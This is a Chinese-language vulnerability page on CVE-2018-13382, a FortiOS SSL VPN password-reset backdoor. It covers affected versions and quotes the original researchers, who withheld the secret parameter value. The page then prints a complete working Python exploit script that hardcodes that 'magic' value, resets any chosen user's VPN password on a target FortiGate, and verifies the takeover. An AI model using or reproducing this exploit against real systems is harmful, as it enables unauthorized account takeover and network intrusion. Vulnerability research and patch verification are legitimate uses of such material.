 ```yaml
---
title: （CVE-2018-13382）Fortinet FortiOS magic后门
id: zhfly2948
---
```


# （CVE-2018-13382）Fortinet FortiOS magic后门

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本 、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9 Fortinet Fortios 5.4.11

## 三、复现过程

在登录页面中，我们找到了一个的特殊参数`magic`。一旦这个参数为某个特殊字符串，我们就可以修改任何用户的密码。

![image](../img/9a5b0e2e151d1fcdc36b7a30b92f5cb8.png)

根据我们的调查，仍有大量的Fortigate SSL VPN缺少补丁。因此，考虑到其严重性，我们不会透露magic字符串。但是，[CodeWhite的研究人员](https://twitter.com/codewhitesec/status/1145967317672714240)已经复现了这个漏洞。毫无疑问，其他攻击者很快就会利用此漏洞！请尽快更新您的Fortigate！

> Critical vulns in [#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw) reversed & exploited by our colleagues [@niph_](https://twitter.com/niph_?ref_src=twsrc%5Etfw) and [@ramoliks](https://twitter.com/ramoliks?ref_src=twsrc%5Etfw) - patch your [#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw) asap and see the [#bh2019](https://twitter.com/hashtag/bh2019?src=hash&ref_src=twsrc%5Etfw) talk of [@orange_8361](https://twitter.com/orange_8361?ref_src=twsrc%5Etfw) and [@mehqq_](https://twitter.com/mehqq_?ref_src=twsrc%5Etfw) for details (tnx guys for the teaser that got us started) [pic.twitter.com/TLLEbXKnJ4](https://t.co/TLLEbXKnJ4)
> 
> — Code White GmbH (@codewhitesec) [2019年7月2日](https://twitter.com/codewhitesec/status/1145967317672714240?ref_src=twsrc%5Etfw)

### poc

https://github.com/ianxtianxt/CVE-2018-13382

```
$ python CVE-2018-13382.py  -h
Usage: CVE-2018-13382.py [options]

Options:

-h, --help   show this help message and exit

-i IP        e.g. 127.0.0.1:10443

-u USERNAME

-p PASSWORD 
```

```
import requests, binascii, optparse, sys
from urlparse import urlparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
requests.packages.urllib3.disable_warnings()
import multiprocessing
import colored
from user_agent import generate_user_agent, generate_navigator
bold=True

userAgent=generate_user_agent()
username=""
newpassword=""
ip=""

def setColor(message, bold=False, color=None, onColor=None):
	from termcolor import colored, cprint
	retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
	return retVal

def checkIP(ip):
	try:
		url = "https://"+ip+"/remote/login?lang=en"
		headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
		r=requests.get(url, headers=headers, verify=False)
		if r.status_code==200 and "<title>Please Login</title>" in r.text:
			return True
		else:
			return False
	except requests.exceptions.ConnectionError as e:
		print e
		return False

def changePassword(ip,username,newpassword):
	url = "https://"+ip+"/remote/logincheck"
	headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
	data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
	r=requests.post(url, headers=headers, data=data, verify=False)
	if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
		return True
	else:
		return False

def testLogin(ip,username,newpassword):
	url = "https://"+ip+"/remote/logincheck"
	headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
	data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
	r=requests.post(url, headers=headers, data=data, verify=False)
	if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
			return True
	else:
		return False

parser = optparse.OptionParser()
parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
parser.add_option('-u', action="store", dest="username")
parser.add_option('-p', action="store", dest="password")
options, remainder = parser.parse_args()
if not options.username or not options.password or not options.ip:
	print "[!] Please provide the ip (-i), username (-u) and password (-p)"
	sys.exit()
if options.username:
	username=options.username
if options.password:
	newpassword=options.password
if options.ip:
	ip=options.ip
tmpStatus=checkIP(ip)
if tmpStatus==True:
	print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
	if changePassword(ip,username,newpassword)==True:
		print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")	
		if testLogin(ip,username,newpassword)==True:
			print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
			print "************** Enjoy your new credentials **************\n"
		else:
			print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
	else:
		print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")			
else:
	print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red") 
```